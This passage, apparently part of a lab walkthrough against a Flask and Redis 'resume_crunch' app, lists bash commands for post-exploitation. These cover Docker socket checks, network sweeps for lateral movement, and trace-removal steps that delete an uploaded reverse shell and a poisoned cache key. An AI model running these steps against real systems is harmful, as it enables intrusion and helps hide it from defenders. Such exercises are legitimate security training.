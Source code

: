 ```bash
# Check if Docker socket is mounted (dangerous!)
ls -la /var/run/docker.sock

# Check for Docker binaries
which docker

# Check environment
env | grep DOCKER

# View container hostname (container ID)
cat /etc/hostname
```

### 24. Attempt Lateral Movement

Try to discover and access other containers:

```bash
# Check /etc/hosts for other containers
cat /etc/hosts

# Try to reach Redis container
ping resume_crunch_redis_container -c 2

# Try to reach other services
nmap -sn 172.17.0.0/24  # if nmap is installed

# Or manually probe
for i in {1..10}; do 
    ping -c 1 -W 1 172.17.0.$i && echo "Host 172.17.0.$i is up"
done
```

### Phase 7: Cleanup and Documentation

### 25. Clean Up Malicious Artifacts (Optional)

To avoid leaving obvious traces:

```bash
# In the reverse shell, remove the uploaded reverse shell
rm /app/resumes/reverse_shell.py

# Exit the shell
exit
```

```bash
# In redis-cli, remove malicious cache entry
redis-cli -h localhost -p 6379
AUTH your_password
DEL flask_cache_exploit
exit
```
